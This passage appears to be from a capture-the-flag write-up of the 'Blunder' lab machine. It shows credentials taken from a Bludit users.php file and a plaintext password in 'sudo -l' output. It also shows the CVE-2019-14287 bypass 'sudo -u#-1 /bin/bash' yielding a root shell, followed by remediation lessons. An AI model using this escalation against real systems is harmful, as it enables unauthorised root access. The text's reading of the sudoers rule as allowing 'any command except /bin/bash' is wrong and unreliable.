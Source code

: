 **->** I'm able to find the password for the `hugo` user under:

 `/var/www/bludit-3.10.0a/bl-content/databases/users.php`.

**Note**: I can switch to user `hugo` with the `su hugo` command!

Can I run any command with  root privileges with that user?

{{< highlight html >}}
ugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -l
sudo -l
Password: Password120

Matching Defaults entries for hugo on blunder:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
{{< /highlight >}}

The answer is yes, any command except for `/bin/bash`!

This kind of configuration of the sudoers file is known to be vulnerable to **CVE : 2019-14287**

All I need to do to obtain root here is:

{{< highlight html >}}
hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash

root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# id
id
uid=0(root) gid=1001(hugo) groups=1001(hugo)
{{< /highlight >}}

**Note**: flags are under `/home/hugo` and `/root`!

## Lessons learned and remediations

- The blog was not patched against the public known vulnerability for **Bludit version 3.9.2**. The administrator should have upgraded the service to a more secure version.
- Thanks to the `todo.txt` file left on the server by the developers I was able to retrieve a valid user and bruteforce the login. This should not happen and all the sensible configuration files and notes should be stored in a safe place.
- There are always different ways to do things. Tools are here for our advantage but it is really important to understand what we're doing before launching random attacks. In this case `dirsearch` and `wfuzz` were both indispensable to find our way in, but I could have found the same results using only one of them. Also, `cewl` was very useful because the login password was not present in the common wordlists I'm using. 
